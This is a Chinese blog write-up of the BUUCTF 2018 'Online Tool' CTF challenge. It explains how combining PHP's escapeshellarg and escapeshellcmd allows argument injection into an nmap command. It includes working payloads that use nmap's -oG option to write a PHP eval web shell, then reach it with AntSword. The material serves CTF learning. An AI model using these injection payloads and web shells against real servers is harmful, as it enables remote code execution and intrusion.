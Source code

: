 <!--yml
category: 未分类
date: 2022-04-26 14:41:34
-->

# BUUCTF__[BUUCTF 2018]Online Tool_题解_风过江南乱的博客-CSDN博客

> 来源：[https://blog.csdn.net/tm_1024/article/details/107393796](https://blog.csdn.net/tm_1024/article/details/107393796)

## 前言

*   今天看到了一位学长写的关于这题的wp。
*   有一句：`“我到底到什么时候，才能学会，看知识点写题，而不是看题解写题。”`
*   太真实了。。。有点迷。

## 研究

*   看题目源码就目标很明确，利用`$host` 变量`system()`命令执行

```
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
} 
```

*   看到namp命令拼接经过`escapeshellarg`和`escapeshellcmd` 函数处理后的`$host`变量，很显然，这又是我不会的知识点。参考[这篇文章](http://www.lmxspace.com/2018/07/16/%E8%B0%88%E8%B0%88escapeshellarg%E5%8F%82%E6%95%B0%E7%BB%95%E8%BF%87%E5%92%8C%E6%B3%A8%E5%85%A5%E7%9A%84%E9%97%AE%E9%A2%98/)

*   先去查`escapeshellarg`和`escapeshellcmd` 函数，这倒是没问题，可以知道这两个函数都是对变量进行转义或或者说转码。只不过有点不同而已。

*   `escapeshellarg`，会在字符串中所有的单引号（包括成对存在闭合的）前添加一个`'\'` ，若已经用`\`转义，则会用并且用`'\'` 替换`\`，最后将整个变量用单引号包裹。
    ![在这里插入图片描述](img/14e0b5ab86ea875ae1215937337a5e98.png)

*   `escapeshellcmd`，会将字符串中未被转义的双引号或单引号转义（成对存在闭合的双引号或单引号除外）若已被转义，则用`\\\"`或`\\\'`替`\"`或`\'`
    ![在这里插入图片描述](img/2208186f9fa3f876ee27a98ffb979956.png)

*   知道处理规则，现在应该知道我们需要什么？？？

*   namp我知道可以用来扫描主机和端口，仅此而已。

*   原来，还可以写入文件。

*   利用namp的参数 `-oG` 可以将扫描结果输出到指定文件，也就是可以写入文件。 那就可以指定一个PHP文件。访问它就能解析php标签里的内容。

*   比如说一句话木马

    ```
    <?php  @eval($_POST['post']) ?> 
    ```

*   网上大多数的payload形式是这样的

    ```
    ' <?php eval($_POST["a"]);?> -oG 1.php ' 
    ```

*   但我实际复现却出现这种情况。无法被PHP解析。
    ![在这里插入图片描述](img/a2a927717a01d85c18fa5f673fc2da7c.png)

*   然后有看到一个，把`^`替换为`\` ,就是处理后的内容，也就是这样

    ```
     \" \'\<\?php eval\(\$_POST\[ a \]\)\;\?\> -oG 1.php \'\" 
    ```

*   有注意到说最后`1.php '` 中间必须有一个空格，不然会导致文件名不对。

*   再因为单引号和双引号都是成对闭合，同时写入时会将`\`省略，最终写入就是

    ```
     <?php  @eval($_POST[a]) ?> 
    ```

*   传入变量`host`返回写入路径 `aa4d8ac4dba44974028dfe92183d6d5e`

    ```
    you are in sandbox aa4d8ac4dba44974028dfe92183d6d5eStarting Nmap 7.70 ( https://nmap.org ) at 2020-07-18 02:07 UTC Nmap done: 0 IP addresses (0 hosts up) scanned in 20.22 seconds Nmap done: 0 IP addresses (0 hosts up) scanned in 20.22 seconds 
    ```

*   然后用蚁剑连接 `题目url/aa4d8ac4dba44974028dfe92183d6d5e/1.php`，密码为`a`

*   就可以用`cat`命令看到 flag 以及写入的 1.php 的内容。
    ![在这里插入图片描述](img/cf19b846849652bce1b684401394baec.png)

*   这里就学到了namp能写入文件吧，还有两个PHP函数的利用。

## 最后

*   在家学习效率极低，什么时候才能回学校啊。
*   附上[题目链接](https://buuoj.cn/challenges#%5BBUUCTF%202018%5DOnline%20Tool)
*   持续更新BUUCTF题解，写的不是很好，欢迎指正。
*   最后欢迎来访[个人博客](http://ctf-web.zm996.cloud/)